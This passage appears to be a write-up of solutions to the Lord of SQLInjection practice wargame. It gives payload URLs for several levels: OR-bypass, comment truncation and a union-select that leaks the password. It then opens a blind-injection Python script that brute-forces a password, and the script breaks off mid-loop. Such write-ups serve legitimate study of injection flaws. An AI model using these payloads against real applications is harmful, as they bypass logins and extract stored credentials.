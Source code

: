 [http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=295d5844](http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=295d5844)

___

## 5. Wolfman
[http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27||id=%27admin](http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27||id=%27admin)

___

## 6. Darkelf
[http://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=%27||id=%27admin](http://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=%27||id=%27admin)

___

## 7. Orge
[http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=%27||id=%27admin%27%26%26@x:=pw+union+select+@x+limit+1,1%23](http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=%27||id=%27admin%27%26%26@x:=pw+union+select+@x+limit+1,1%23)

[http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=6c864dec](http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=6c864dec)

___

## 8. Troll
[http://los.eagle-jump.org/troll_6d1f080fa30a07dbaf7342285ba0e158.php?id=ADMIN](http://los.eagle-jump.org/troll_6d1f080fa30a07dbaf7342285ba0e158.php?id=ADMIN)

___

## 9. Vampire
[http://los.eagle-jump.org/vampire_0538b0259b6680c1ca4631a388177ed4.php?id=ADMIN](http://los.eagle-jump.org/vampire_0538b0259b6680c1ca4631a388177ed4.php?id=ADMIN)

___

## 10. Skeleton
[http://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=%27||id=%27admin%27%23](http://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=%27||id=%27admin%27%23)

___

## 11. Golem
``` python
import urllib
import httplib
 
Pw=""
for i in range(1,100):
    isFind=False
    for a in "0123456789abcdefghijklmnopqrstuvwxyz":
        Payload="' || id like 'admin' && ascii(mid(pw,"+str(i)+",1)) like '"+str(ord(a))
        Payload=urllib.quote(Payload)
        HTTP=httplib.HTTPConnection("los.eagle-jump.org")
        Param=urllib.urlencode({})
        Headers={"Cookie":"PHPSESSID=**secret**"}
        HTTP.request("GET","/golem_39f3348098ccda1e71a4650f40caa037.php?pw="+Payload,Param,Headers)
        Result=HTTP.getresponse().read()
```